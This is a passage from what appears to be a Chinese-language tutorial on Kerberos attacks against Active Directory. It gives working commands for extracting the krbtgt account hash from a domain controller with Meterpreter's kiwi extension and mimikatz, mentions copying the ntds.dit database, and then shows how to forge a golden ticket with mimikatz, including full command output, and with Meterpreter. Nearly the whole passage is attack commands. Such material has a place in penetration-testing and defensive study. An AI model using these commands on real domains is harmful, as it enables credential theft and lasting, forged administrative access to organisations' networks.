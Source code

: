 或者在 meterpreter 中使用 kiwi 扩展

```
dcsync_ntlm krbtgt
```

- LSA(mimikatz)

mimikatz 可以在域控的本地安全认证(Local Security Authority)上直接读取

```
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

- Hashdump(Meterpreter)

 ![/styles/images/kerberos/meterpreter-hashdump.png]({{ '/styles/images/kerberos/meterpreter-hashdump.png' | prepend: site.baseurl }}) 

- ntds.dit

将域控中的数据库 ntds.dit 复制出来使用其他工具解析，需要注意有时候这个 ntds.dit 是非常大的。



伪造黄金票据：

Mimikatz

```
mimikatz # kerberos::golden /user:utilisateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /id:1107 /groups:513 /ticket:utilisateur.chocolate.kirbi
User      : utilisateur
Domain    : chocolate.local
SID       : S-1-5-21-130452501-2365100805-3685010670
User Id   : 1107
Groups Id : *513
krbtgt    : 310b643c5316c8c3c70a10cfb17e2e31 - rc4_hmac_nt
Lifetime  : 15/08/2014 01:57:29 ; 12/08/2024 01:57:29 ; 12/08/2024 01:57:29
-> Ticket : utilisateur.chocolate.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```



Meterpreter

```
golden_ticket_create -d chocolate.local -u utilisateur -s S-1-5-21-130452501-2365100805-3685010670
-k 310b643c5316c8c3c70a10cfb17e2e31 -t utilisateur.chocolate.kirbi
```
